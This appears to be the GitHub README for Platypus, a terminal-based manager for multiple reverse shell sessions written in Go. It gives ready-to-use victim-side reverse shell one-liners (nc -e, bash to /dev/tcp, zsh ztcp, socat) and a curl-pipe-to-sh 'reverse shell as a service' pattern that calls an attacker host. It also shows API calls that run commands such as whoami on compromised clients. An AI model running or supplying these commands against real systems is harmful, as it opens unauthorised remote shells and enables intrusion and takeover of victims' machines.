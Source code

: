 # Platypus

[![GitHub stars](https://img.shields.io/github/stars/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus/stargazers)
[![GitHub license](https://img.shields.io/github/license/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus)
[![Backers on Open Collective](https://opencollective.com/Platypus/backers/badge.svg)](#backers) 
[![Sponsors on Open Collective](https://opencollective.com/Platypus/sponsors/badge.svg)](#sponsors)

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service

#### Screenshot
![](https://upload-images.jianshu.io/upload_images/2355077-9ef699f1de815f9e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/2355077-bd729ecfe7d2dcc0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### Network Topology
```
Attack IP: 192.168.1.2
    Reverse Shell Service: 0.0.0.0:8080
    RESTful Service: 127.0.0.1:9090
Victim IP: 192.168.1.3
```

#### Run Platypus from source code
```
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Run Platypus from release binaries
```
// Download binary from https://github.com/WangYihang/Platypus/releases
chmod +x ./Platypus_linux_amd64
./Platypus_linux_amd64
```

#### Run Platypus from docker
```
// Build your docker image
docker build -t xxxx/Platypus .

// Use host network mode to run container
docker run --net=host -it xxxx/Platypus

// Don' t use host network, and you need to specify the port manually
docker run -p 8000:8000 -p 9000:9000 xxxx/Platypus
```

#### Victim side
```
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```

#### Reverse shell as a Service
```bash
// Platypus is able to multiplexing the reverse shell listening port
// The port 8080 can receive reverse shell client connection
// Also these is a Reverse shell as a service running on this port

// victim will be redirected to attacker-host attacker-port
// sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# curl http://192.168.1.2:8080/attacker.com/1337
bash -c 'bash -i >/dev/tcp/attacker.com/1337 0>&1'
# sh -c "$(curl http://192.168.1.2:8080/attacker.com/1337)"

// if the attacker info not specified, it will use host, port as attacker-host attacker-port
// sh -c "$(curl http://host:port/)"
# curl http://192.168.1.2:8080/
curl http://192.168.1.2:8080/192.168.1.2/8080|sh
# sh -c "$(curl http://host:port/)"
```

#### RESTful API
* `GET /client` List all online clients
```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```
* `POST /client/:hash` execute a command on a specific client
```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```
* How to hash?
```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```

#### TODO
- [ ] [#12 Add capability of setting human-readable name of session](https://github.com/WangYihang/Platypus/issues/12)
- [ ] [#13 Add a display current prompt setting](https://github.com/WangYihang/Platypus/issues/13)
- [ ] [#10 Use database to record all events and interacting logs](https://github.com/WangYihang/Platypus/issues/10)
- [ ] [#11 Make STDOUT and STDERR distinguishable](https://github.com/WangYihang/Platypus/issues/11)
- [ ] [#6 Send one command to all clients at once(Meta Command)](https://github.com/WangYihang/Platypus/issues/6)
- [ ] [#15 Encryption support](https://github.com/WangYihang/Platypus/issues/15)
- [ ] Send a specific command to all clients
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
- [ ] Use crontab
- [ ] Use HR package to detect the status of client (maybe `echo $random_string`)
- [ ] Upgrade common reverse shell session into full interactive session
- [ ] Provide full kernel API
- [ ] Upload file
- [ ] Download file
- [ ] List file
- [ ] Web UI
- [ ] User guide
- [ ] Benchmark
- [ ] Upgrade to Metepreter session


## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Platypus/graphs/contributors"><img src="https://opencollective.com/Platypus/contributors.svg?width=890&button=false" /></a>


## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Platypus#backer)]

<a href="https://opencollective.com/Platypus#backers" target="_blank"><img src="https://opencollective.com/Platypus/backers.svg?width=890"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Platypus#sponsor)]

<a href="https://opencollective.com/Platypus/sponsor/0/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/0/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/1/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/1/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/2/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/2/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/3/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/3/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/4/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/4/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/5/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/5/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/6/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/6/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/7/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/7/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/8/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/8/avatar.svg"></a>
<a href="https://opencollective.com/Platypus/sponsor/9/website" target="_blank"><img src="https://opencollective.com/Platypus/sponsor/9/avatar.svg"></a>


